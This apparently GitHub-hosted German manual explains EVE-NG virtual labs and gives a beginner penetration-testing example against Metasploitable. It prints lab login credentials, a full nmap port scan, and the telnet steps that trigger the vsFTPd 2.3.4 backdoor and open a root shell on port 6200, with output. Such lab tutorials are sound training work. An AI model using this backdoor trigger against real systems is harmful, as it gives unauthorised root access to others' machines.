







## Benutzerhandbuch für Virtuelle Labs 

Dies ist das offizielle Benutzerhandbuch für das erstellen und importieren von virtuellen EVE-NG Labs. Außerdem wird hier erklärt, wie man einen Penetrationstest anhand eines Beispiel mit Metasploit durchführt.

### Vorbereitungen treffen

Auf dem Pentesting Computer läuft die Linux Distribution Kali Linux. Über den Browser navigiert man auf die EVE-NG Instanz. Folgende Daten sind wichtig für die weitere Nutzung:

**EVE-NG Zugangsinformationen:**
* IP-Adresse: 10.0.0.200
* Eingabe mittels https://10.0.0.200
* Nutzername: admin
* Passwort: eve

**Pentesting Computer Zugangsinformationen:**
* Nutzername: pentester
* Passwort: hacking

Außerdem sollte eine Netzwerkverbindung bestehen. Eine Netzwerkkonfiguration bekommt man für gewöhnlich über den Router mittels DHCP. Sollte das nicht funktionieren, fragen Sie den Netzwerkadministrator, oder vergeben Sie eine statische IP-Adresse!

### Die EVE-NG Benutzeroberfläche

Die EVE-NG Benutzeroberfläche besteht im wesentlichen sehr schlicht und simpel aufgebaut. Auf der unteren Leiste, sieht man gängige Operationen für die virtuellen Labs. Es können virtuelle Labs erstellt, importiert und gelöscht werden. Zudem kann man auch die Ansicht Aktualisieren.



### Was es sonst noch zu beachten gibt

Damit mehrere gleichzeitig mit eigenen Labs oder auch gemeinsam an einem Lab arbeiten können, muss ein neuer Nutzer angelegt werden. Dazu geht man in dem Bereich *Management > Usermanagement* und legt dort entsprechend einen neuen Nutzer an



Erforderliche Daten:
* User Name
* Password
* Password Confirmation
* POD 

### Starterkit - Beispiel fürs Hacken von Diensten und Computern

Im folgenden Szenario wird ein Beispiel gezeigt, wie man virtuelle Labs für Penetrationstests nutzen kann. Hier wird ein fertiges bereits erstelles Lab genutzt um den Einstieg dementsprechend zu vereinfachen. Natürlich kann man auch für später ein eigenes Lab erstellen. Das ist ja nämlich der Sinn des ganzen.

#### Fertiges vLab benutzen

1. Virtuelles Lab importieren

Dazu geht man unter das Symbol *Hochladen* was für Importieren steht. Danach öffnet sich ein Dialogfenster mit der Aufforderung eine Datei auszuwählen. Eine ZIP-Datei:



2. ZIP Datei upload durchführen

Dann ist noch ein Upload Schritt notwendig, der die Datei in den Transit befördert :) Dazu geht man oben rechts auf Upload:



3. Öffnen des Labs

Mit einem Klick auf das vLab erscheint ein Informationsfenster. Unter den Metadaten steht dann *Open*. Nach einem Klick gelangt man in das virtuelle Labor:




#### Übersicht des Pentesting Szenarios

Im folgenden sieht man das Pentesting Szenario, welches bereits vorbereitet wurde. Darin erkennt man eine Cisco ASA Firewall, einen Cisco Switch, eine Kali Linux Maschine und ein anfälliges Gerät mit Schwachstellen. Dieser anfällige Computer ist ein sogenanntes Metasploitable. Das ist perfekt für das Kennenlernen von Hackingabläufen. Vor allem für Einsteiger:



1. Virtuelle Maschinen einschalten

Die Netzwerkgeräte und Maschinen müssen erst angeschaltet werden. Dazu markiert man alle Geräte im Szenario und aktiviert diese über einen Rechtsklick auf ein leeres Feld:




#### Beispiel Szenario - vsFTPd exploit

Auf dem Metasploitable läuft auf dem Port 21 eine vsFTPd Version, die eine Backdoor eingebaut hat. Diese Backdoor wurde von einem unbekannten Eindringling eingebaut.

1. Kali Linux Terminal öffnen

Mit einem Doppelklick auf die Kali Linux Maschine öffnet sich ein neues Fenster mit oder Oberfläche des Gerätes. Nach einloggen in Kali Linux gelangt man auf einem Linux Homebildschirm. Darauf einfach den Terminal starten.

In diesem Beispiel gehen wir davon aus, dass folgende IP-Adressen vergeben sind:
* Kali: 10.0.0.22
* Metasploitable 10.0.0.30

Die IP-Adressen werden bei dir sicherlich anders sein. Dazu kann man einfach mit diesem Befehl die IP-Adresse von der Maschine anzeigen lassen:

```bash
ip addr
```

2. Ports von Metasploitable scannen

Mithilfe von NMAP können alle offenen Ports gescannt werden. Dazu kann einfach die ganze Range angegeben werden:

```bash
root@kali:/tmp# nmap -p0-65535 10.0.0.30

Starting Nmap 5.61TEST4 ( http://nmap.org ) at 2022-03-07 21:14 ETC
Nmap scan report for 10.0.0.30 
Host is up (0.00028s latency).
Not shown: 65506 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
512/tcp   open  exec
513/tcp   open  login
514/tcp   open  shell
1099/tcp  open  rmiregistry
1524/tcp  open  ingreslock
2049/tcp  open  nfs
2121/tcp  open  ccproxy-ftp
3306/tcp  open  mysql
3632/tcp  open  distccd
5432/tcp  open  postgresql
5900/tcp  open  vnc
6000/tcp  open  X11
6667/tcp  open  irc
6697/tcp  open  unknown
8009/tcp  open  ajp13
8180/tcp  open  unknown
8787/tcp  open  unknown
39292/tcp open  unknown
43729/tcp open  unknown
44813/tcp open  unknown
55852/tcp open  unknown
```

Im folgenden Output von NMAP kann man also sehen, dass der FTP Port 21 offen ist. Bei Metasploit handelt es sich hier um eine modifizierte Version mit einer Backdoor die wir exploiten können.

3. FTP Backdoor ausnutzen

Mithilfe von Telnet können wir folgendes eingeben um eine Root Shell zu bekommen:

```bash
root@kali:/tmp# telnet 10.0.0.30 21
Trying 10.0.0.30...
Connected to 10.0.0.30.
Escape character is '^]'.
220 (vsFTPd 2.3.4)
user backdoored:)
331 Please specify the password.
pass invalid
^]
telnet> quit
Connection closed.
```

Was ist hier nun passiert? Also die Backdoor kann man so ausnutzen, indem man sich auf den FTP Port über Telnet connected. Dabei wird auch gleich die Version direkt angezeigt. Danach kommt keine Aufforderung mehr und wir können wir Code in die CLI Injecten. Wenn wir nämlich ":)" angeben, wird automatisch ein neuer Port geöffnet nämlich Port 6200. Dieser gibt uns eine versteckte Rootshell:


```bash
                       
root@kali:/tmp# telnet 10.0.0.30 6200
Trying 10.0.0.30...
Connected to 10.0.0.30.
Escape character is '^]'.
id;
uid=0(root) gid=0(root)
```

### Fazit 

Das waren natürlich jetzt nur ein paar Beispiele. Natürlich gibt es noch viel mehr, was man mit Metasploitable anstellen kann. Unter folgendem Link kann man sich weiter einlesen in alle Schwachstellen, Backdoors und verfügbare Exploits, in Form von Code Injections und Python bzw. Bash oder auch C Scripts.


[metasploitable walkthroughs](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide). 

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/MrInfusion/benutzerhandbuch-nutzung-virtueller-labs/settings/pages). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support oder Kontakt

Habt ihr noch Fragen oder irgendwelche Probleme? Dann könnt ihr euch an die Netzwerkadministratoren wenden.